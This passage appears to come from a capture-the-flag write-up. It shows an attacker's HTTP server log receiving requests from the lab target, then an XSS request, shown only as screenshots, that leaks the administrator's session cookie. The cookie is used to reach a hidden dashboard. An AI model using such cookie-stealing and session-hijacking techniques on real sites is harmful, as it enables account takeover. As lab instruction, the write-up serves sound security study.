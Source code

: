 ![Pasted image 20240710140540.png](../assets/images/Pasted%20image%2020240710140540.png)
We got a hit!
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.8 - - [10/Jul/2024 14:03:42] "GET / HTTP/1.1" 200 -
10.10.11.8 - - [10/Jul/2024 14:03:42] code 404, message File not found
10.10.11.8 - - [10/Jul/2024 14:03:42] "GET /favicon.ico HTTP/1.1" 404 -
```
Let's see if we can perform session hijacking by stealing the administrator's cookie by including that in our malicious XSS request.
![Pasted image 20240710140908.png](../assets/images/Pasted%20image%2020240710140908.png)
The request came back as before and the path contains a cookie!
```
10.10.11.8 - - [10/Jul/2024 14:09:45] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```
Now that we have stolen an administrator cookie, it's important to recall that the gobuster results contained a dashboard. Let's visit that and analyze the response.
![Pasted image 20240710125020.png](../assets/images/Pasted%20image%2020240710125020.png)
By the response, it seems the dashboard does exist but we don't have the privileges to access it. Let's edit our cookie to reflect the result we got from the XSS attack. I like using the OWASP Penetration Testing Kit extension for Firefox. 